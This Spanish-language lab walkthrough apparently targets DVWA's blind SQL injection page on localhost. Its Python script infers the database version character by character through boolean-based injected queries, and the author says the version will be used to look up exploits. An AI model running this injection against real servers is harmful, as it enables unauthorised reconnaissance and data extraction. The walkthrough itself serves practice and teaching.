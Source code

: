 En este apartado, vamos a realizar la ejecución de un script en python, para poder averiguar la versión de la base de datos que está ejecutando el servidor. Esto nos permite buscar vulnerabilidades en internet para poder realizar la explotación de la misma. Para ello el primer paso es crear el código en python:

```python

import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=q1al1s91f2l75phkc846d636e6"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1

'''python

Una vez creado el archivo, podemos proceder a su ejecución con el siguiente comando:

    python3 sqlVersion.py

Y como podemos observar, nos ha extraido la versión junto con el nombre de la base de datos que utiliza:

![Imagen](./images/dbVersion.png)


